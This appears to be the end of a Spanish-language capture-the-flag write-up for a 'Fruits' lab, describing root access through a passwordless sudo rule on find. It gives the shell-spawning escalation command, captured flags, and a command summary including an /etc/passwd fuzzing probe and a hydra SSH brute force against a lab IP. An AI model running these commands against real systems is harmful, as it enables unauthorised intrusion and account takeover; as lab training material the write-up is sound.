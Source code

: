 Buscando un poco de información sobre el siguiente script: `(ALL) NOPASSWD: /usr/bin/find`  logro obtener información de como se puede elevar privilegios, pero, ¿por que sucede eso? Pues veamos que nos dice nuestro amigo ChatGPT.

[!NOTE] Importante
  - `(ALL) NOPASSWD: /usr/bin/find`: Aquí se indica que el usuario `bananaman` puede ejecutar el comando `find` con `sudo` en cualquier ubicación (`ALL`) sin tener que ingresar su contraseña (`NOPASSWD`). El comando `find` se utiliza para buscar archivos y directorios en el sistema de archivos.

Ya conociendo esta información, es cuestión de buscar sobre este script en internet y rapidamente aparece un comando, que al colocarlo permite conectarse como root, el comando es el siguiente:

`sudo find /etc/passwd -exec /bin/sh \;`

# PWNED

Y efectivamente es lo que hago, así que...
**¡Estamos dentro!**

![ElevarPrivilegiosFruitsCTF.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/ElevarPrivilegiosFruitsCTF.png)

# Bandera(s)

[!FLAG] 
  - `User-flag{VGUgdG9jYSBvYnRlbmVyIGEgdGkgbGEgZmxhZw==}`
  - `Root-flag{QXF1aSBubyB2YXMgYSBlbmNvbnRyYXIgbmFkYQ==}`

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `nmap -p- --open -sC -sS -sV min-rate=5000 -n -vvv -Pn 10.6.6.55`
  - `dirb http://10.6.6.55/`
  - `gobuster dir -u http://10.6.6.55/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`
  - `gobuster dir -u http://10.6.6.55/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh`
  - `dirsearch -u http://10.6.6.55/`
  - `wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hl 1 'http://10.6.6.55/fruits.php?FUZZ=/etc/passwd'`
  - `hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://10.6.6.55 -t 4 -I`
  - `sudo -l`
  - `sudo find /etc/passwd -exec /bin/sh \;`
